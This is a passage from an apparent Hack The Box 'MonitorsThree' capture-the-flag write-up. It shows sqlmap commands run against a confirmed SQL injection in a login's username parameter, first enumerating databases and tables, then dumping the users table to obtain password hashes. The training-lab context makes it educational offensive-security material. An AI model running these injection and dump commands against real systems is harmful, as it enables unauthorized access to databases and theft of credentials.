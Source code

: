 Cool, we've found an injection.

Let's now run:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsThree]
└─$ sqlmap -r burp.txt --batch --level 5 --risk 3  -p username --dbms mysql --threads 10 --dbs
<SNIP>
available databases [2]:
[*] information_schema
[*] monitorsthree_db
```

Ok, nice. Let's use sqlmap to look at the monitorsthree_db database.

```
┌──(ryan㉿kali)-[~/HTB/MonitorsThree]
└─$ sqlmap -r burp.txt --batch --level 5 --risk 3  -p username --dbms mysql --threads 10 -D monitorsthree_db --tables
<SNIP>
Database: monitorsthree_db
[6 tables]
+---------------+
| changelog     |
| customers     |
| invoice_tasks |
| invoices      |
| tasks         |
| users         |
+---------------+
```

Lets dump the users table:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsThree]
└─$ sqlmap -r burp.txt --batch --level 5 --risk 3  -p username --dbms mysql --threads 10 -D monitorsthree_db -T users --dump
```

And after seemingly an eternity, we've got our hashes:

![htb_monitors3_hashes.png](../assets/monitorsthree_assets/htb_monitors3_hashes.png)

